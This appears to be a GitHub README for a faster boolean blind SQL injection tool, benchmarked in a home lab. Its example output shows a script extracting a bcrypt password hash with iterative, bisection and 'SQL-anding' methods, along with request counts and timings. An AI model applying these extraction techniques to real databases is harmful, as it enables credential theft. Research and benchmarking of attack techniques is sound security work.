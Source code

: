 # Faster (Boolean) Blind SQLi

Inspired by this [paper](https://aircconline.com/csit/papers/vol10/csit101909.pdf) by Ruben Ventura. Watch my [YouTube Video]()

Data: [Google Sheets](https://docs.google.com/spreadsheets/d/1FdOYCAtdOS3T62VdZSJWqQMLSwO-H0sDMOxKyOotkRc/edit?usp=sharing)
- *Server:* HP Elitebook (**RAM: 32GB, CPU: Intel i7 vPro 8th Gen**) running **MariaDB + Apache2** on **local network**
- *Attacker:* PC (**RAM: 16GB, CPU: AMD Ryzen 7 5800X**)

Example output:
```bash
kali@kali$ python3 dump.py 12
[+] Oracle verified

--- ITERATIVE ---
[+] $2a$12$HEXnjRPQxxSLVrdUSf7d6.uHn2LZt4vyZ2CN66L/qI177ovoHea66

[*] Total number of requests: 4827
[*] Average requests per char: 80.450
[*] Time elapsed: 4.129857 seconds

--- BISECTION ---
[+] $2a$12$HEXnjRPQxxSLVrdUSf7d6.uHn2LZt4vyZ2CN66L/qI177ovoHea66

[*] Total number of requests: 420
[*] Average requests per char: 7.000
[*] Time elapsed: 0.071599 seconds

--- SQL-ANDING ---
[+] $2a$12$HEXnjRPQxxSLVrdUSf7d6.uHn2LZt4vyZ2CN66L/qI177ovoHea66

[*] Total number of requests: 420
[*] Average requests per char: 7.000
[*] Time elapsed: 0.069890 seconds
```